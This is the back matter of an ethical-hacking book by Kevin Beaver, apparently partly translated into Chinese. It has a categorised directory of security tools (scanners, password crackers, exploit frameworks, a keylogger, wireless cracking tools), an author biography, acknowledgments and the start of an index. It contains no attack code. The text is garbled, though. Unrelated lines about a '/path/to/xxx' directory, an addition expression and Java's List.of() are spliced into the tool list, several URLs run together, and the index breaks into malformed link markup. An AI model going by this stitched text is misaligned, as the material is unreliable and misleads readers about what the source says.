AppDetectivePro — [`https://www.trustwave.com/Products/Database-Security/AppDetectivePRO`](https://www.trustwave.com/Products/Database-Security/AppDetectivePRO)

ElcomSoft Distributed Password Recovery — [`https://www.elcomsoft.com/edpr.html`](https://www.elcomsoft.com/edpr.html)

Idera — [`https://www.idera.com`](https://www.idera.com)

Microsoft SQL Server Management Studio — [`https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms?view=sql-server-2017`](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms?view=sql-server-2017)

Nexpose — [`https://www.rapid7.com/vulnerability-scanner.jsp`](https://www.rapid7.com/vulnerability-scanner.jsp)

Pete Finnigan’s listing of Oracle scanning tools — [`www.petefinnigan.com/tools.htm`](http://www.petefinnigan.com/tools.htm)

QualysGuard — [`https://www.qualys.com`](https://www.qualys.com/)

SQLPing3 — [`www.sqlsecurity.com/downloads`](http://www.sqlsecurity.com/downloads/)

### 拒绝服务（DoS）保护

Cloudflare — [`https://www.cloudflare.com`](https://www.cloudflare.com)

DOSarrest — [`https://www.dosarrest.com`](https://www.dosarrest.com)

Incapsula — [`https://www.incapsula.com`](https://www.incapsula.com)

### 利用

Metasploit — [`https://www.metasploit.com`](https://www.metasploit.com)

Offensive Security’s Exploit Database — [`https://www.exploit-db.com`](https://www.exploit-db.com)

Pwnie Express — [`https://pwnieexpress.com`](https://pwnieexpress.com/)

### 一般研究工具

AFRINIC — [`https://www.afrinic.net`](https://www.afrinic.net)

APNIC — [`https://www.apnic.net`](https://www.apnic.net)

ARIN — [`http://whois.arin.net/ui`](http://whois.arin.net/ui)

Bing — [`https://www.bing.com`](https://www.bing.com)

DNSstuff — [`https://www.dnsstuff.com`](https://www.dnsstuff.com)

DNS Tools — [`www.dnstools.com`](http://www.dnstools.com/)

The File Extension Source — [`http://filext.com`](http://filext.com/)

Google — [`https://www.google.com`](https://www.google.com)

GoogleGuide advanced operators — [`www.googleguide.com/advanced_operators.html`](http://www.googleguide.com/advanced_operators.html)

Government domains — [`https://domains.dotgov.gov/dotgov-web/registration/whois.xhtml?_m=3`](https://domains.dotgov.gov/dotgov-web/registration/whois.xhtml?_m=3)

D&B Hoover’s business information — [`www.hoovers.com`](http://www.hoovers.com/)

LACNIC — [`www.lacnic.net`](http://www.lacnic.net/)

Netcraft’s *What’s that site running?* — [`https://www.netcraft.com`](https://www.netcraft.com)

RIPE Network Coordination Centre — [`https://apps.db.ripe.net/db-web-ui/#/query`](https://apps.db.ripe.net/db-web-ui/#/query)

theHarvester — [`https://code.google.com/p/theharvester`](https://code.google.com/p/theharvester/)

U.S. Patent and Trademark Office — [`https://www.uspto.gov`](https://www.uspto.gov)

US Search.com — [`https://www.ussearch.com`](https://www.ussearch.com)

U.S. Securities and Exchange Commission — [`https://www.sec.gov/edgar.shtml`](https://www.sec.gov/edgar.shtml)

WhatIsMyIP — [`https://www.whatismyip.com`](https://www.whatismyip.com)

Whois — [`https://www.whois.net`](https://www.whois.net)

Yahoo! Finance — [`https://finance.yahoo.com`](https://finance.yahoo.com)

Zabasearch — [`www.zabasearch.com`](http://www.zabasearch.com/)

### 黑客相关

*2600 The Hacker Quarterly* — [`https://www.2600.com`](https://www.2600.com)

Hacker T-shirts, equipment, and other trinkets — [`https://www.thinkgeek.com`](https://www.thinkgeek.com)

*Hakin9* — [`https://hakin9.org`](https://hakin9.org)

*(IN)SECURE Magazine* — [`https://www.helpnetsecurity.com/insecuremag-archive/Phrack`](https://www.helpnetsecurity.com/insecuremag-archive/Phrack) — [`www.phrack.org`](http://www.phrack.org/)

### 键盘记录器

KeyGhost — [`www.keyghost.com`](http://www.keyghost.com/)

### 法律与法规

Computer Fraud and Abuse Act — [`https://www.fas.org/sgp/crs/misc/RS20830.pdf`](https://www.fas.org/sgp/crs/misc/RS20830.pdf)

Digital Millennium Copyright Act (DMCA) — [`https://www.eff.org/issues/dmca`](https://www.eff.org/issues/dmca)

Global Data Protection Regulation (GDPR) — [`https://www.eugdpr.org`](https://www.eugdpr.org)

Gramm-Leach-Bliley Act (GLBA) Safeguards Rule — [`https://www.ftc.gov/tips-advice/business-center/privacy-and-security/gramm-leach-bliley-act`](https://www.ftc.gov/tips-advice/business-center/privacy-and-security/gramm-leach-bliley-act)

Health Insurance Portability and Accountability Act (HIPAA) Security Rule — [`https://www.hhs.gov/ocr/privacy/hipaa/understanding/srsummary.html`](https://www.hhs.gov/ocr/privacy/hipaa/understanding/srsummary.html)

Payment Card Industry Data Security Standard (PCI DSS) — [`https://www.pcisecuritystandards.org/pci_security`](https://www.pcisecuritystandards.org/pci_security/)

U.S. Security Breach Notification Laws — [`http://www.ncsl.org/research/telecommunications-and-information-technology/security-breach-notification-laws.aspx`](http://www.ncsl.org/research/telecommunications-and-information-technology/security-breach-notification-laws.aspx)

### Linux

GFI LanGuard — [`https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard3`](https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard3)

Kali Linux — [`https://www.kali.org`](https://www.kali.org)

Linux Security Auditing Tool (LSAT) — [`http://usat.sourceforge.net`](http://usat.sourceforge.net/)

Nexpose — [`https://www.rapid7.com/products/nexpose/`](https://www.rapid7.com/products/nexpose/)

QualysGuard — [`https://www.qualys.com`](https://www.qualys.com)

SourceForge — [`https://sourceforge.net`](https://sourceforge.net)

THC-Amap — [`www.thc.org/thc-amap`](https://www.thc.org/thc-amap/)

Tiger — [`www.nongnu.org/tiger`](http://www.nongnu.org/tiger/)

### 现场工具包

Comprehensive listing of live bootable Linux toolkits — [`www.livecdlist.com`](http://www.livecdlist.com/)

Kali Linux — [`https://www.kali.org`](https://www.kali.org)

Knoppix — [`http://knoppix.net`](http://knoppix.net/)

Network Security Toolkit — [`http://www.networksecuritytoolkit.org/nst/index.html`](http://www.networksecuritytoolkit.org/nst/index.html)

Security Tools Distribution — [`https://s-t-d.org`](https://s-t-d.org)

### 日志分析

GFI EventsManager — [`https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-eventsmanager`](https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-eventsmanager)

SIEM Data Collection Log Management — [`https://software.microfocus.com/en-us/products/siem-data-collection-log-management-platform/overview`](https://software.microfocus.com/en-us/products/siem-data-collection-log-management-platform/overview)

### 通信

Brutus — [`www.hoobie.net/brutus`](http://www.hoobie.net/brutus/)

Cain & Abel — [`www.oxid.it/cain.html`](http://www.oxid.it/cain.html)

DNSstuff relay checker — [`https://www.dnsstuff.com`](https://www.dnsstuff.com)

EICAR Anti-Virus test file — [`http://www.eicar.org/86-0-Intended-use.html`](http://www.eicar.org/86-0-Intended-use.html)

theHarvester — [`https://github.com/laramies/theHarvester`](https://github.com/laramies/theHarvester)

mailsnarf — [`https://www.monkey.org/~dugsong/dsniff`](https://www.monkey.org/~dugsong/dsniff)

smtpscan — [`https://www.freshports.org/security/smtpscan`](https://www.freshports.org/security/smtpscan)


7-Zip — [`https://www.7-zip.org`](https://www.7-zip.org)

SmartDraw — [`https://www.smartdraw.com`](https://www.smartdraw.com)

3M Privacy Filters — [`https://www.3m.com/3M/en_US/privacy-screen-protectors-us`](https://www.3m.com/3M/en_US/privacy-screen-protectors-us)

WinZip — [`www.winzip.com`](http://www.winzip.com/)

### Mobile

Considerations for BitLocker in Microsoft Windows 7 — [`https://www.principlelogic.com/docs/BitLocker_in_Windows7.pdfElcomSoft`](https://www.principlelogic.com/docs/BitLocker_in_Windows7.pdfElcomSoft) Forensic Disk Decryptor — [`http://www.elcomsoft.com/efdd.html`](http://www.elcomsoft.com/efdd.html)

ElcomSoft Phone Breaker — [`http://www.elcomsoft.com/eppb.html`](http://www.elcomsoft.com/eppb.html)

ElcomSoft System Recovery — [`http://www.elcomsoft.com/esr.html`](http://www.elcomsoft.com/esr.html)

iOS Forensic Toolkit — [`http://www.elcomsoft.com/eift.html`](http://www.elcomsoft.com/eift.html)

Microsoft BitLocker Administration and Monitoring — [`https://docs.microsoft.com/en-us/microsoft-desktop-optimization-pack/index`](https://docs.microsoft.com/en-us/microsoft-desktop-optimization-pack/index)

Ophcrack — [`http://ophcrack.sourceforge.net`](http://ophcrack.sourceforge.net/)

Oxygen Forensic Suite — [`http://www.oxygen-forensic.com`](http://www.oxygen-forensic.com/)

Passware Kit Forensic — [`https://www.passware.com/kit-forensic/`](https://www.passware.com/kit-forensic/)

Veracode — [`www.veracode.com`](http://www.veracode.com)

### Networks

Arpwatch — [`http://linux.maruhn.com/sec/arpwatch.html`](http://linux.maruhn.com/sec/arpwatch.html)

Blast v2.0 — [`http://www.mcafee.com/us/downloads/free-tools/blast.aspx`](http://www.mcafee.com/us/downloads/free-tools/blast.aspx)

Cain & Abel — [`www.oxid.it/cain.html`](http://www.oxid.it/cain.html)

CommView — [`http://www.tamos.com/products/commview`](http://www.tamos.com/products/commview)

dsniff — [`http://www.monkey.org/~dugsong/dsniff`](http://www.monkey.org/~dugsong/dsniff)

Essential NetTools — [`http://www.tamos.com/products/nettools`](http://www.tamos.com/products/nettools)

Fortinet — [`http://www.fortinet.com`](http://www.fortinet.com/)

Getif — [`www.wtcs.org/snmp4tpc/getif.htm`](http://www.wtcs.org/snmp4tpc/getif.htm)

GFI LanGuard — [`https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard3`](https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard3)

IKECrack — [`http://ikecrack.sourceforge.net`](http://ikecrack.sourceforge.net/)

MAC address vendor lookup — [`https://regauth.standards.ieee.org/standards-ra-web/pub/view.html#registries`](https://regauth.standards.ieee.org/standards-ra-web/pub/view.html#registries)

Nessus vulnerability scanner — [`https://www.tenable.com/products/nessus/nessus-professional`](https://www.tenable.com/products/nessus/nessus-professional)

Netcat — [`http://netcat.sourceforge.net`](http://netcat.sourceforge.net/)

netfilter/iptables — [`https://www.netfilter.org`](https://www.netfilter.org)

NetResident — [`https://www.tamos.com/products/netresident`](https://www.tamos.com/products/netresident)

NetScanTools Pro — [`https://www.netscantools.com`](https://www.netscantools.com)

Nping — [`https://nmap.org/nping`](https://nmap.org/nping)

Nexpose — [`https://www.rapid7.com/products/nexpose/`](https://www.rapid7.com/products/nexpose/)

Nmap port scanner — [`https://nmap.org`](https://nmap.org)

NMapWin — [`https://sourceforge.net/projects/nmapwin`](https://sourceforge.net/projects/nmapwin)

Omnipeek — [`https://www.savvius.com/product/omnipeek`](https://www.savvius.com/product/omnipeek)

Port-number lookup — [`www.cotse.com/cgi-bin/port.cgi`](http://www.cotse.com/cgi-bin/port.cgi)

PortSentry — [`https://sourceforge.net/projects/sentrytools`](https://sourceforge.net/projects/sentrytools)

PromiscDetect — [`http://ntsecurity.nu/toolbox/promiscdetect`](http://ntsecurity.nu/toolbox/promiscdetect/)

QualysGuard vulnerability scanner — [`https://www.qualys.com`](https://www.qualys.com)

SoftPerfect Network Scanner — [`https://www.softperfect.com/products/networkscanner`](https://www.softperfect.com/products/networkscanner)

SMAC MAC address changer — [`www.klcconsulting.net/smac`](http://www.klcconsulting.net/smac/)

Snare — [`https://www.snaresolutions.com/products/snare-agents`](https://www.snaresolutions.com/products/snare-agents)

sniffdet — [`http://sniffdet.sourceforge.net`](http://sniffdet.sourceforge.net/)

SonicWALL — [`https://www.sonicwall.com/en-us/home`](https://www.sonicwall.com/en-us/home)

Synful Knock Scanner — [`https://www.talosintelligence.com/scanner`](https://www.talosintelligence.com/scanner)

TamoSoft Essential NetTools — [`https://www.tamos.com/products/nettools/?route=information/freeproduct&information_id=13`](https://www.tamos.com/products/nettools/?route=information/freeproduct&information_id=13)

Traffic IQ Professional — [`www.idappcom.com`](http://www.idappcom.com)

UDPFlood — [`https://www.mcafee.com/us/downloads/free-tools/udpflood.aspx`](https://www.mcafee.com/us/downloads/free-tools/udpflood.aspx)

WhatIsMyIP — [`https://www.whatismyip.com`](https://www.whatismyip.com)

Wireshark — [`https://www.wireshark.org`](https://www.wireshark.org)

### Password Cracking

Advanced Archive Password Recovery — [`https://www.elcomsoft.com/archpr.html`](https://www.elcomsoft.com/archpr.html)

BIOS passwords — [`http://labmice.techtarget.com/articles/BIOS_hack.htm`](http://labmice.techtarget.com/articles/BIOS_hack.htm)

Considerations for BitLocker in Microsoft Windows 7 — [`https://www.principlelogic.com/docs/BitLocker_in_Windows7.pdfBrutus`](https://www.principlelogic.com/docs/BitLocker_in_Windows7.pdfBrutus) — [`www.hoobie.net/brutus`](http://www.hoobie.net/brutus/)

Cain & Abel — [`www.oxid.it/cain.html`](http://www.oxid.it/cain.html)

Crack — `ftp://coast.cs.purdue.edu/pub/tools/unix/pwdutils/crack`

Default vendor passwords — [`https://www.cirt.net/passwords`](https://www.cirt.net/passwords)

Dictionary files and word lists

*   `ftp://ftp.cerias.purdue.edu/pub/dict` 

*   [`https://packetstormsecurity.org/Crackers/wordlists` ](https://packetstormsecurity.org/Crackers/wordlists/)

*   [`www.outpost9.com/files/WordLists.html` ](http://www.outpost9.com/files/WordLists.html)

ElcomSoft Distributed Password Recovery — [`https://www.elcomsoft.com/edpr.html`](https://www.elcomsoft.com/edpr.html)

ElcomSoft Forensic Disk Decryptor — [`https://www.elcomsoft.com/efdd.html`](https://www.elcomsoft.com/efdd.html)

ElcomSoft System Recovery — [`https://www.elcomsoft.com/esr.html`](https://www.elcomsoft.com/esr.html)

John the Ripper — [`www.openwall.com/john`](http://www.openwall.com/john/)

KeyGhost — [`www.keyghost.com`](http://www.keyghost.com/)

LastPass — [`https://lastpass.com`](https://lastpass.com/)

NetBIOS Auditing Tool — [`https://www.securityfocus.com/tools/543`](https://www.securityfocus.com/tools/543)

NIST Guide to Enterprise Password Management — [`https://csrc.nist.gov/publications/drafts/800-118/draft-sp800-118.pdf`](https://csrc.nist.gov/publications/drafts/800-118/draft-sp800-118.pdf)

NTAccess — [`www.mirider.com/ntaccess.html`](http://www.mirider.com/ntaccess.html)

ophcrack — [`http://ophcrack.sourceforge.net`](http://ophcrack.sourceforge.net/)

Pandora — [`http://www.nmrc.org/project/pandora`](http://www.nmrc.org/project/pandora)

Passware Kit Forensic — [`https://www.passware.com/kit-forensic`](https://www.passware.com/kit-forensic)

Password Safe — [`https://pwsafe.org`](https://pwsafe.org)

Proactive Password Auditor — [`https://www.elcomsoft.com/ppa.htm`](https://www.elcomsoft.com/ppa.htm)l

Proactive System Password Recovery — [`https://www.elcomsoft.com/pspr.html`](https://www.elcomsoft.com/pspr.html)


## 进入`/path/to/xxx`目录，找到`xxx.json`。

在表达式`cvar = avar + bvar`中，加法运算符（`+`）将`avar`与`bvar`相加，得到它们的和`cvar`

在`List.of(arg0, arg1, arg2)`中，`List`接口的工厂方法`of()`接受一系列的元素，返回包含这些元素的列表。


Brutus — [`www.hoobie.net/brutus/index.html`](http://www.hoobie.net/brutus/index.html)

Burp Proxy — [`https://portswigger.net/burp`](https://portswigger.net/burp)

Firefox Web Developer — [`http://chrispederick.com/work/web-developer`](http://chrispederick.com/work/web-developer)

Fortify WebInspect — [`https://software.microfocus.com/en-us/products/webinspect-dynamic-analysis-dast/overview`](https://software.microfocus.com/en-us/products/webinspect-dynamic-analysis-dast/overview)

Foundstone’s SASS Hacme Tools — [`https://www.mcafee.com/us/downloads/free-tools/index.aspx`](https://www.mcafee.com/us/downloads/free-tools/index.aspx)

Google Hack Honeypot — [`http://ghh.sourceforge.net`](http://ghh.sourceforge.net)

Google Hacking Database — [`https://www.exploit-db.com/google-hacking-database`](https://www.exploit-db.com/google-hacking-database)

HTTrack Website Copier — [`www.httrack.com`](http://www.httrack.com)

McAfee Host Intrusion Prevention for Server — [`https://www.mcafee.com/us/products/host-ips-for-server.aspx`](https://www.mcafee.com/us/products/host-ips-for-server.aspx)

Netsparker — [`https://www.netsparker.com`](https://www.netsparker.com/)

OWASP Zed Attack Proxy Project — [`https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project`](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)

Paros Proxy — [`https://sourceforge.net/projects/paros`](https://sourceforge.net/projects/paros)

Port 80 Software’s ServerMask — [`https://www.port80software.com/products/servermask`](https://www.port80software.com/products/servermask)

Qualys SSL Labs — [`https://www.sslabs.com`](https://www.sslabs.com)

SiteDigger — [`https://www.mcafee.com/us/downloads/free-tools/sitedigger.aspx`](https://www.mcafee.com/us/downloads/free-tools/sitedigger.aspx)

SQL Inject Me — [`https://addons.mozilla.org/en-us/firefox/addon/sql-inject-me`](https://addons.mozilla.org/en-us/firefox/addon/sql-inject-me)

SQL Power Injector — [`www.sqlpowerinjector.com`](http://www.sqlpowerinjector.com)

THC-Hydra — [`https://tools.kali.org/password-attacks/hydra`](https://tools.kali.org/password-attacks/hydra)

WebGoat — [`https://www.owasp.org/index.php/Category:OWASP_WebGoat_Project`](https://www.owasp.org/index.php/Category:OWASP_WebGoat_Project)

WSDigger — [`https://www.mcafee.com/us/downloads/free-tools/wsdigger.aspx`](https://www.mcafee.com/us/downloads/free-tools/wsdigger.aspx)

WSFuzzer — [`https://www.owasp.org/index.php/Category:OWASP_WSFuzzer_Project`](https://www.owasp.org/index.php/Category:OWASP_WSFuzzer_Project)

## Windows

Considerations for BitLocker in Microsoft Windows 7 — [`https://www.principlelogic.com/docs/BitLocker_in_Windows7.pdf`](https://www.principlelogic.com/docs/BitLocker_in_Windows7.pdf)

DumpSec — [`https://www.systemtools.com/somarsoft/?somarsoft.com`](https://www.systemtools.com/somarsoft/?somarsoft.com)

GFI LanGuard — [`https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard3`](https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard3)

Microsoft Baseline Security Analyzer — [`https://www.microsoft.com/en-us/download/details.aspx?id=7558`](https://www.microsoft.com/en-us/download/details.aspx?id=7558)

Network Users — [`www.optimumx.com/download/netusers.zip`](http://www.optimumx.com/download/netusers.zip)

Nexpose — [`https://www.rapid7.com/products/nexpose`](https://www.rapid7.com/products/nexpose)

QualysGuard — [`https://www.qualys.com`](https://www.qualys.com)

SoftPerfect Network Scanner — [`https://www.softperfect.com/products/networkscanner`](https://www.softperfect.com/products/networkscanner)

Sysinternals — [`https://docs.microsoft.com/en-us/sysinternals`](https://docs.microsoft.com/en-us/sysinternals)

Winfo — [`www.ntsecurity.nu/toolbox/winfo`](http://www.ntsecurity.nu/toolbox/winfo)

## Wireless Networks

Aircrack-ng — [`http://aircrack-ng.org`](http://aircrack-ng.org)

Asleap — [`https://sourceforge.net/projects/asleap`](https://sourceforge.net/projects/asleap)

CommView for WiFi — [`https://www.tamos.com/products/commwifi`](https://www.tamos.com/products/commwifi)

Digital Hotspotter — [`www.canarywireless.com`](http://www.canarywireless.com)

ElcomSoft Wireless Security Auditor — [`https://www.elcomsoft.com/ewsa.html`](https://www.elcomsoft.com/ewsa.html)

Homebrew WiFi antenna — [`www.turnpoint.net/wireless/has.html`](http://www.turnpoint.net/wireless/has.html)

Kismet — [`https://www.kismetwireless.net`](https://www.kismetwireless.net)

NetStumbler — [`www.netstumbler.com`](http://www.netstumbler.com)

OmniPeek — [`https://www.savvius.com/product/omnipeek`](https://www.savvius.com/product/omnipeek)

Reaver — [`https://code.google.com/p/reaver-wps`](https://code.google.com/p/reaver-wps)

Wellenreiter — [`https://sourceforge.net/projects/wellenreiter`](https://sourceforge.net/projects/wellenreiter)

WEPCrack — [`http://wepcrack.sourceforge.net`](http://wepcrack.sourceforge.net)

WiFinder — [`www.boingo.com/retail/#s3781`](http://www.boingo.com/retail/#s3781)

WiFi Pineapple — [`https://www.wifipineapple.com`](https://www.wifipineapple.com)

WiGLE database of wireless networks — [`https://wigle.net`](https://wigle.net)

WinAirsnort — [`http://winairsnort.free.fr`](http://winairsnort.free.fr)

## About the Author

`Kevin Beaver` is an independent information security consultant, expert witness, professional speaker, and writer with Atlanta-based Principle Logic, LLC. He has over three decades of experience in IT and has spent a quarter of a century working in security. `Kevin` specializes in performing independent information security assessments for corporations, security product vendors, software developers/cloud service providers, government agencies, nonprofit organizations, among others. Before starting his information security consulting practice in 2001, `Kevin` served in various information technology (IT) and security roles for several healthcare, e-commerce, financial, and educational institutions.

`Kevin` has appeared on CNN television as an information security expert and has been quoted in The Wall Street Journal, Entrepreneur, Fortune Small Business, Women's Health, and on Inc. magazine’s technology site, IncTechnology.com. `Kevin`’s work has also been referenced by the PCI Council in their Data Security Standard Wireless Guidelines. `Kevin` has been a top-rated speaker, giving hundreds of presentations and panel discussions for IT and security seminars, conferences, and webcasts over the past decade and a half.

`Kevin` has authored or co-authored 12 information security books, including *Hacking Wireless Networks For Dummies*, *Implementation Strategies for Fulfilling and Maintaining IT Compliance* (Realtimepublishers.com), and *The Practical Guide to HIPAA Privacy and Security Compliance* (Auerbach). `Kevin` has written more than three dozen whitepapers and over 1,000 articles and guest blog posts for sites such as TechTarget’s SearchSecurity.com, SearchEnterpriseDesktop.com, and SearchSoftwareQuality.com, Ziff Davis’ Toolbox.com, as well as IBM’s SecurityIntelligence.com. `Kevin` is the creator and producer of the Security On Wheels audiobooks, which provide security learning for IT professionals on the go ([`securityonwheels.com`](http://www.securityonwheels.com)), and the Security On Wheels blog ([`securityonwheels.com/blog`](http://www.securityonwheels.com/blog)). He also covers information security and related matters on Twitter ([`@kevinbeaver`](https://twitter.com/kevinbeaver)) and YouTube (`PrincipleLogic`). `Kevin` earned his bachelor’s degree in Computer Engineering Technology from Southern College of Technology and his master’s degree in Management of Technology from Georgia Tech. He has obtained his CISSP certification in 2001 and also holds MCSE, Master CNE, and IT Project+ certifications.


Kevin 可以通过他的网站[`https://www.principlelogic.com`](http://www.principlelogic.com)联系，也可以通过 LinkedIn 在[`https://www.linkedin.com/in/kevinbeaver`](http://www.linkedin.com/in/kevinbeaver)与他连接。

## Dedication

这本是献给我的客户们。我想向每一位一直雇佣我、这位“无名品牌”顾问的客户以及多年坚持雇佣我的客户表示诚挚的感谢。如果没有你们愿意摆脱“必须雇佣大公司”的思维定势，并持续多年支持我的决心，我不会在这里。衷心感谢你们！

## Author’s Acknowledgments

如常，我要向 Amy、Garrett 和 Mary Lin 表示巨大的感谢，感谢你们每天为我的生活带来的爱、支持和幽默。我对你们的爱意百分之百！

我也想感谢 Amy Fandrei，我的收购编辑，她继续推动本项目，并给了我塑造这本书的机会，让我感到非常自豪。同时感谢我的项目编辑 Chrissy Guthrie，这段合作真的很愉快！向我的排版编辑 Kathy Simpson 致敬，感谢她帮助我把思想和文字控制在适当范围内。也要向我的技术编辑、业务同事、朋友以及《Hacking Wireless Networks For Dummies》共同作者 Peter T. Davis 致谢。正如这本书的前五个版本一样，与你合作非常棒——谢谢你让我保持正确方向！

衷心感谢 Nicky Sciberras（Acunetix）、Robert Abela（Netsparker）、Nate Crampton（Rapid7）、Vladimir Katalov 和 Olga Koksharova（ElcomSoft）、Kirk Thomas（Northwest Performance Software）、David Vest（Mythicsoft）、Michael Berg（TamoSoft）以及 Oliver Muenchow、Colin Bastable 和 Palo Stacho（LUCY Security）对我的所有请求的回应。同时感谢 Dave Coe 帮助我保持对最新安全工具和技术的了解。对其他未提及的同事，我也表示衷心的感谢！

**Publisher’s Acknowledgments**

**Acquisitions Editors:** Amy Fandrei 和 Steven Hayes

**Editorial Project Manager and Development Editor:** Christina N. Guthrie

**Copy Editor:** Kathy Simpson

**Technical Editor:** Peter T. Davis

**Production Editor:** Siddique Shaik

**Cover Image:** © matejmo/Getty Images

## Index

* * *

### A

1.  access, blocking, 241

2.  access control list (ACL), 238

3.  AccessEnum (website), 189

4.  account enumeration, 260–263

5.  account lockout, 120

6.  ACL (access control list), 238

7.  Active Directory, 104

8.  Active Server Pages (ASP), 291

9.  Acunetix Web Vulnerability Scanner, 21, 22, 278, 296, 297, 371

10.  adaptability, 346

11.  Advanced Archive Password Recovery (Elcomsoft), 111, 365

12.  Advanced Office Password Recovery (website), 306

13.  advanced persistent threat (APT), 152

14.  Advanced SQL Password Recovery (website), 304, 358

15.  AFRINIC (Regional Internet Registry for Africa), 66, 359

16.  Aircrack-ng (website), 161, 167, 373

17.  airodump, 169

18.  AirWatch (website), 194

19.  allies, 341

20.  all-in-one assessment tools, 204

21.  allintitle operator, 282

22.  Amenza Technologies Limited Secur/Tree, 42

23.  American National Standards Institute (ANSI), 11

24.  American Standard Code for Information Interchange (ASCII), 119

25.  analyzers, 128

26.  analyzing 

     1.  network data, 140–146

     2.  source code, 300–301, 369

27.  anonymity, maintaining, 35–36

28.  ANSI (American National Standards Institute), 11

29.  antenna, external, 161

30.  Apache web server (httpd), 230

31.  APNIC (website), 66, 359

32.  AppDetectivePro (website), 307, 358

33.  applications. *See* `websites and applications`

34.  approval, prior, 351

35.  AppSpider, 153, 290, 371

36.  APs (access points), 160

37.  APT (advanced persistent threat), 152

38.  ARIN (Regional Internet Registry for North America, a Portion of the Caribbean, and subequatorial Africa), 66, 359

39.  ARP spoofing/poisoning, 147–149

40.  Arpwatch (website), 363

41.  ASCII (American Standard Code for Information Interchange), 119

42.  asleap (website), 171, 373

43.  ASP (Active Server Pages), 291

44.  assumptions, making, 46–47

45.  Asterisk (website), 77

46.  attachments (e-mail), 255–256

47.  attack tree analysis, 42

48.  attacks, 33–35. *See also specific topics*

49.  auditing, compared with ethical hacking, 10–11, 348

50.  authentication, 101, 121, 225–226

51.  authorization, 18

52.  automated assessments, 56–57

53.  automated password reset, 121

54.  automating patching, 325–326, 331–332

55.  Awareity MOAT (website), 370

56.  awareness, as countermeasure against social engineering, 80–82

### B

1.  background checks, 64

2.  bad guys, thinking like, 27

3.  bad-guy (black hat) hackers, 9, 29

4.  bandwidth blocking, 255

5.  banner attacks, 258–260

6.  banners, grabbing, 137–138

7.  Barracuda Networks (website), 300

8.  Bastille Linux Hardening Program (website), 369

9.  Bastille UNIX (website), 247

10.  Beaver, Kevin (author) 

     1.  *Hacking Wireless Networks For Dummies*, 169

11.  Beaver, Kevin (security analyst), 368

12.  believability, 72

13.  benefits, of ethical hacking, 343–344

14.  best practices, for minimizing e-mail security risks, 269–270

15.  Bing (website), 62, 359

16.  BIOS passwords, 116, 365

17.  Bitscanner, 167

18.  black hat (bad-guy) hackers, 9, 29

19.  Blast (website), 154, 363

20.  blind assessments, 45, 51

21.  blind ethical hacking, 39

22.  Blooover (website), 166, 357

23.  BlueLog (website), 166


24. `BlueScanner` (`website`), `[166`](`#c10.xhtml#Page_166`), `[357`](`#a01.xhtml#Page_357`)

25. `Bluesnarfer` (`website`), `[166`](`#c10.xhtml#Page_166`), `[357`](`#a01.xhtml#Page_357`)

26. `BlueSniper rifle` (`website`), `[166`](`#c10.xhtml#Page_166`), `[357`](`#a01.xhtml#Page_357`)

27. `Bluetooth`, `[166`](`#c10.xhtml#Page_166`), `[357`](`#a01.xhtml#Page_357`)

28. `bootable (live) CDs`, `[160`](`#c10.xhtml#Page_160`)–`161`

29. `Bow Tie`, `[41`](`#c03.xhtml#Page_41`)

30. `bring your own device (BYOD)`, `[193`](`#c11.xhtml#Page_193`)

31. `brute-force attacks`, `for cracking passwords`, `[105`](`#c08.xhtml#Page_105`)–`107`

32. `Brutus`, `[102`](`#c08.xhtml#Page_102`), `[104`](`#c08.xhtml#Page_104`), `[268`](`#c14.xhtml#Page_268`), `[294`](`#c15.xhtml#Page_294`), `[362`](`#a01.xhtml#Page_362`), `[371`](`#a01.xhtml#Page_371`)

33. `BTScanner for XP` (`website`), `[357`](`#a01.xhtml#Page_357`)

34. `buffer-overflow attacks`, `[244`](`#c13.xhtml#Page_244`)–`245`, `[284`](`#c15.xhtml#Page_284`)

35. `built-in Windows programs`, `[203`](`#c12.xhtml#Page_203`)

36. `Burp Proxy`, `[284`](`#c15.xhtml#Page_284`), `[286`](`#c15.xhtml#Page_286`), `[371`](`#a01.xhtml#Page_371`)

37. `business phones`, `[77`](`#c06.xhtml#Page_77`)

38. `BYOD (bring your own device)`, `[193`](`#c11.xhtml#Page_193`)

### C

1. `Cain & Abel` 

    1. `about`, `[22`](`#c01.xhtml#Page_22`)

    2. `for capturing and recording voice traffic`, `[273`](`#c14.xhtml#Page_273`)–`275`

    3. `using for ARP poisoning`, `[148`](`#c09.xhtml#Page_148`)–`149`

    4. `website`, `[101`](`#c08.xhtml#Page_101`), `[102`](`#c08.xhtml#Page_102`), `[114`](`#c08.xhtml#Page_114`), `[128`](`#c09.xhtml#Page_128`), `[141`](`#c09.xhtml#Page_141`), `[267`](`#c14.xhtml#Page_267`), `[304`](`#c16.xhtml#Page_304`), `[362`](`#a01.xhtml#Page_362`), `[364`](`#a01.xhtml#Page_364`), `[365`](`#a01.xhtml#Page_365`), `[370`](`#a01.xhtml#Page_370`)

2. `Camtasia Studio` (`TechSmith`), `[45`](`#c03.xhtml#Page_45`)

3. `Canadian Personal Information Protection and Electronic Documents Act (PIPEDA)`, `[12`](`#c01.xhtml#Page_12`)

4. `Canary Wireless Digital Hotspotter` (`website`), `[161`](`#c10.xhtml#Page_161`)

5. `candy-security adage`, `[68`](`#c06.xhtml#Page_68`)

6. `cantenna`, `[162`](`#c10.xhtml#Page_162`)

7. `CAPTCHA (Completely Automated Public Turing test to tell Computers and Humans Apart)`, `[257`](`#c14.xhtml#Page_257`)–`258`, `[297`](`#c15.xhtml#Page_297`)

8. `capturing traffic`, `[267`](`#c14.xhtml#Page_267`), `[273`](`#c14.xhtml#Page_273`)–`275`

9. `Car Whisperer` (`website`), `[167`](`#c10.xhtml#Page_167`), `[357`](`#a01.xhtml#Page_357`)

10. `Carbon Black` (`website`), `[357`](`#a01.xhtml#Page_357`)

11. `Cash, Adam (author)` 

     1. `*Psychology For Dummies*`, `[73`](`#c06.xhtml#Page_73`)

